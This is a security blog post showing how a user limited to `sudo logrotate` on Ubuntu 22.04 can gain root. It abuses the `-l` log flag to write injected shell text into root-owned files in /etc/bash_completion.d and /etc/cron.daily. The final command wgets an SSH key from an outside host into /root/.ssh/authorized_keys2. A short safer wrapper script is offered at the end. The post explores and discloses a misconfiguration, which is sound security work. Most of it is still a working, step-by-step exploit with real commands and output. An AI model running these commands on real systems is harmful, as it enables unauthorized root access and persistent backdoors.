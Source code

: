```yaml
---
layout: post
title: "root with a single command: sudo logrotate"
author: "Joshua Rogers"
categories: security
---
```


The scenario is this: a brand new Ubuntu 22.04 server has an account which is restricted to running `sudo logrotate *`.  Can we get root? Short answer: Yes. I couldn't find much online about this type of exploitation of logrotate, so let's document something for future use.

---

Note: as mentioned, the _user_ is limited to _only_ running `sudo logrotate *` either through some `rbash`  setup, or an ssh _authorized_keys_ ForceCommand which limits execution -- the _user_ cannot run anything other than `sudo logrotate`:
```bash
#!/bin/sh

case "$SSH_ORIGINAL_COMMAND" in
    logrotate*)
        sudo /usr/sbin/$SSH_ORIGINAL_COMMAND
        ;;
    *)
        exit 1
        ;;
esac
```

and _/etc/sudoers_ contains the following:
```bash
user ALL=(ALL:ALL) NOPASSWD: /usr/sbin/logrotate *
```


---

Let's first look at logrotate's help text:
```bash
$ logrotate --help
Usage: logrotate [OPTION...] <configfile>
[..]
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of `/usr/bin/mail')
  -s, --state=statefile     Path of state file
  -l, --log=logfile         Log file or 'syslog' to log to syslog
```

My first instinct was to use something like `sudo logrotate -m '/usr/bin/uname'`. The manual states that this flag is for:
```bash
       -m, --mail command
              Tells logrotate which command to use when mailing logs.
```

A logrotate configuration file may specify an email address to send log files when they are rotated:
```
       mail address: When a log is rotated out of existence, it is mailed to address.  If no mail should be generated by a particular log, the nomail directive may be used.
       nomail: Do not mail old log files to any address.
       mailfirst: When using the mail command, mail the just-rotated file, instead of the about-to-expire file.
       maillast: When using the mail command, mail the about-to-expire file, instead of the just-rotated file (this is the default).
```

However, no logrotate configuration files were mailing logs:
```bash
$ grep -nrI 'mail' /etc/logrotate.*
$
```

---

So, why not just create a new configuration? No dice:
```bash
$ sudo logrotate -m '/usr/bin/uname' ./mail
Potentially dangerous mode on ./mail: 0664
error: Ignoring ./mail because it is writable by group or others.

$ chmod 600 mail

$ sudo logrotate -m '/usr/bin/uname' -f ./mail
error: Ignoring ./mail because the file owner is wrong (should be root or user with uid 0).
```
So we need a very specific type of file: owned by root, and only writable by root. I first thought some log files may work:
```bash
-rw-r--r--   1 root      root                   0 Oct  1 00:00 dpkg.log
-rw-r--r--   1 root      root                   0 Oct  1 00:00 alternatives.log
-rw-r-----   1 root      adm                46992 Sep  5 15:48 dmesg
..
```
but I couldn't find anything that would let me log to the file verbatim, or without any extra characters at the end (due to logrotate's functionality, we can effectively log to the beginning of many log files too, since we can just rotate the log if there is a configuration file in _/etc/logrotate.d/_ already.)

---

I then thought _/var/mail/root_:
```bash
$ ls -l /var/mail/root
-rw------- 1 root mail 1 Oct  1 01:07 /var/mail/root
```
It definitely fits our requirements. So let's try:
```bash
$ cat <<< "/home/user/log.log {
mail address@example.com
}" | mail -s "Email Subject" root

$ sudo logrotate -m '/usr/bin/uname' -f /var/mail/root
error: /var/mail/root:1 unknown option 'From' -- ignoring line
error: /var/mail/root:2 keyword 'Return' not properly separated, found 0x2d
```
Unfortunately logrotate completely bawks on the second line in the mail file:
```mail
From user@server  Sun Oct  1 01:10:45 2023
Return-Path: <user@server>
X-Original-To: root
Delivered-To: root@server
Received: by server (Postfix, from userid 1000)
	id D689B7E3DD; Sun,  1 Oct 2023 01:10:45 +0000 (UTC)
Subject: Email Subject
To: root@server
User-Agent: mail (GNU Mailutils 3.14)
Date: Sun,  1 Oct 2023 01:10:45 +0000
Message-Id: <20231001011045.D689B7E3DD@server>
From: User <user@server>

/home/user/log.log {
mail address@example.com
}
```
So, out of luck here, too.

---

I moved on to the `-s` flag that logrotate provides, and while it can create files as root (and overwrite those that exist), it didn't provide much value:
```bash
$ ls -l /tmp/test
-rw-r----- 1 root root 29 Oct  1 01:19 /tmp/test

$ cat /tmp/test # run as root
logrotate state -- version 2
```

---

Finally, I took a look at the `-l` flag:
```bash
$ sudo logrotate -l ./nonexist test
error: cannot stat test: No such file or directory

$ cat nonexist
error: cannot stat test: No such file or directory
Reading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

Handling 0 logs

$ ls -l nonexist
-rw-r--r-- 1 root root 952 Oct  1 01:28 nonexist
```
So we can write arbitrary data (**test** here is the arbitrary data, albeit with some garbage between it) to an arbitrary file which is owned by root. What more can we do with this?
```bash
user@server:/etc/bash_completion.d$ ls -l
total 4
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ sudo logrotate -l /etc/bash_completion.d/backdoor '2>/dev/null;uname -a; return 0;'
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory

user@server:/etc/bash_completion.d$ ls -l
total 8
-rw-r--r-- 1 root root 652 Sep 30 14:35 backdoor
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ cat backdoor
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory
acquired lock on state file /var/lib/logrotate/statusReading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

user@server:/etc/bash_completion.d$ exit
logout
Shared connection to server closed.

$ ssh user@server
Last login: Sat Sep 30 14:33:20 2023 from 10.0.0.0
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Basically, we can create an arbitrary file in `/etc/bash_completion.d/` which, if bash completion is enabled, will be sourced when a user logs into the server. The arbitrary data is `2>/dev/null;uname -a; return 0;` which effectively sends the first garbage data to _/dev/null_; executes `uname -a`; then returns, ignoring the rest of the junk data. This could be used to get a shell when a real user logs into the server, hopefully obtaining more access. Alternatively, we could create some file in _/etc/init.d/_, _/etc/profile.d/_, or overwrite _/etc/profile_. The possibilities are endless.

---

I wasn't happy with leaving it like this, so I took a further look. As it turns out, the permissions of the log files are retained too:
```bash
$ touch check-perms
$ chmod 777 check-perms
$ sudo logrotate -l ./check-perms test
error: cannot stat test: No such file or directory

$ ls -l check-perms
-rwxrwxrwx 1 user user 952 Oct  1 01:32 check-perms
```
What can we do with this?

Well, we can edit one of the scripts in _/etc/cron.daily/_:
```bash
user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 1395 Mar 12  2023 man-db

user@server:/etc/cron.daily$ sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;uname -a; exit 0;'
error: cannot stat 2>/dev/null;uname -a; exit 0;: No such file or directory

user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 652 Sep 30 14:50 man-db

user@server:/etc/cron.daily$ ./man-db
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
The next time the cronjob runs, our arbitrary code is executed: as root.

---

So, to answer the question: with only the `sudo logrotate` command available, can we obtain root? Yep; it's as simple as:
```bash
sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget host/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
```
then wait until the cronjob is run, and just ssh in. That's my solution to this problem, anyways.

---

And of course, the more appropriate way to achieve the goal of allowing a normal user to rotate logs would be to allow sudo to run a wrapper script like this:
```bash
#!/bin/sh
case "$1" in
    [a-z0-9A-Z\-])
       /usr/sbin/logrotate -f /etc/logrotate.d/"$1"
        ;;
    *)
        exit 1
        ;;
esac
```
